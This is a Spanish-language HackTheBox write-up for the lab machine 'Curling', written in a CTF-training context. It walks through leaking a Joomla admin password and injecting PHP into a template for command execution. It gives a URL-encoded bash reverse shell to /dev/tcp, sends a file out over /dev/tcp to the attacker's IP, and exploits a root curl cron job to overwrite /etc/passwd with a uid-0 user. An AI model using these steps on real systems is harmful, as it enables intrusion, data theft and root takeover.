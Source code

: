 ```yaml
---
title: HackTheBox - Curling
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Crontab Exploitation (curl)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Curling/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Curling Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Crontab Exploitation (curl)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Curling/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Curling/02-versions.png)

c. Al inspeccionar el sitio web encontramos **un nombre de usuario** y un fichero **secret**

![](/assets/images/HTB/Easy/Curling/03-web.png)

* La cadena que obtenemos al visitar el fichero 'secret.txt' está encodeada en base64

    ```bash
    ❯ echo -n 'Q3VybGluZzIwMTgh' | base64 -d
    Curling2018!
    ```

* Nos autenticamos en el panel de administrador de Joomla (**/administrator**)

    ![](/assets/images/HTB/Easy/Curling/04-joomla.png)

d. Para ejecutar comandos, inyectamos una sentencia php en un template de error

![](/assets/images/HTB/Easy/Curling/05-rce.png)

* Para ejecutar comandos vamos a la ruta `http://<IP Curling>/templates/protostar/error.php?cmd=[Comando]`. Ahora, entablamos una reverse shell

```bash
Payload = bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/<tun0 IP>/<Puerto>%200%3E%261%22
----------------------------------------------------------------------------------------
❯ nc -lvnp 443
www-data@curling:/var/www/html/templates/protostar$
```

### Escalada de Privilegios 💹

a. El usuario **floris** tiene un fichero password_backup el cual transferiremos a nuestra máquina

```bash
❯ nc -lvnp 4444 > password_backup
---------------------------------------------------------------------------------
www-data@curling:/home/floris$ cat < password_backup > /dev/tcp/10.10.14.18/4444
```

* El contenido del archivo lo pasamos por [**CyberChef**](https://gchq.github.io/CyberChef/). Veremos una posible credencial

    ![](/assets/images/HTB/Easy/Curling/06-password.png)

b. Veremos si la cadena anterior puede ser la contraseña del usuario **floris**

```bash
❯ ssh floris@10.10.10.150
floris@10.10.10.150's password: 5d<wdCbdZu)|hChXll
floris@curling:~$ 
```

c. Subimos [pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) para saber si existen tareas cron ejecutándose en el sistema

```bash
floris@curling:~$ ./pspy64 

<SNIP>
2023/09/13 23:07:01 CMD: UID=0     PID=2220   | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

* Puntos Principales:
    + [x] El usuario **root** ejecuta esta tarea.
    + [x] La opción `-K` en curl sirve para indicar un archivo de configuración en el que podemo indicar un url de la cual conseguirá la información y donde queremos que la guarde

d. Con lo anterior en mente, podemos indicar que queremos sobreescribir el fichero **`/etc/passwd`**, para añadir un nuevo usuario con lo mismo privilegios que root

* Copiamos el fichero '/etc/passwd' de la Máquina Curling.
* Con openssl generamos una contraseña válida (En el ejemplo la contraseña es **hola**)
* Agregamos el usuario 'evil' al final del archivo '/etc/passwd' copiado y montamos un servidor http con python

    ```bash
    ❯ tail -n 1 passwd
    evil:$1$4NQ2IHzW$TtycSVMvW6nOiprAtnxZK/:0:0::/home:/bin/bash
    -------------------------------------------------------------
    ❯ python -m http.server 80
    ```

* Modificamos el fichero **input**

    ```bash
    floris@curling:~/admin-area$ cat input 
    url = "http://<tun0 IP>/passwd"
    output = "/etc/passwd"
    ```

c. El usuario evil será válido en el sistema y si nos convertirmos en él, tendremos permisos como root

```bash
floris@curling:~/admin-area$ tail -n 1 /etc/passwd
evil:$1$4NQ2IHzW$TtycSVMvW6nOiprAtnxZK/:0:0::/home:/bin/bash
floris@curling:~/admin-area$ su evil
Password: hola
root@curling:~/floris/admin-area#
```
